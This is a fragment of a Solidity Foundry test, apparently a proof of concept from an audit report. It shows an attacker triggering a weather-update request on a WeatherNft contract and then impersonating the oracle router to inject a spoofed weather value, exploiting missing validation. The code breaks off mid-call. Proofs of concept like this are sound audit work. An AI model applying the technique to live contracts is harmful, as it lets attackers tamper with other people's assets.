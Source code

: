 ```solidity
        weatherNft.handleOracleFulfillment(reqId, weatherResponse, "");

        // User fulfills mint request
        vm.prank(_user);
        weatherNft.fulfillMintRequest(reqId);

        _;
    }

```

```solidity
function test_missing_validation_in_fulfillWeatherUpdate()
    public
    withMintedNftInitialSetUp(user)
{
   // Verify the NFT was minted
        uint256 tokenId = weatherNft.s_tokenCounter() - 1;
        assertEq(weatherNft.ownerOf(tokenId), user);
        assertEq(
            uint8(weatherNft.s_tokenIdToWeather(tokenId)),
            uint8(WeatherNftStore.Weather.SUNNY)
        );

        // Step 2: Attacker manipulates the weather of the NFT by exploiting missing validation

        // Attacker creates a malicious update request (directly to the weather update function)
        // This demonstrates that _fulfillWeatherUpdate lacks validation
        vm.recordLogs();

        // Attacker sends a performUpkeep request to generate a reqId for weather update
        vm.prank(attacker);
        weatherNft.performUpkeep(abi.encode(tokenId));

        // Get the request ID for the weather update
        Vm.Log[] memory updateLogs = vm.getRecordedLogs();
        bytes32 updateReqId;
        for (uint256 i; i < updateLogs.length; i++) {
            if (
                updateLogs[i].topics[0] ==
                keccak256(
                    "NftWeatherUpdateRequestSend(uint256,bytes32,uint256)"
                )
            ) {
                (, updateReqId) = abi.decode(
                    updateLogs[i].data,
                    (uint256, bytes32)
                );
                break;
            }
        }
        assert(updateReqId != bytes32(0));

        // Validate the update request is linked to the token
        assertEq(weatherNft.s_funcReqIdToTokenIdUpdate(updateReqId), tokenId);

        // Attacker spoofs the oracle response (in a real attack, this would require exploiting
        // the oracle or other means to inject malicious data)
        // Here we use the functionsRouter address to simulate oracle access
        vm.prank(functionsRouter);
        bytes memory maliciousWeatherResponse = abi.encode(
            WeatherNftStore.Weather.WINDY
        );
        weatherNft.handleOracleFulfillment(
```
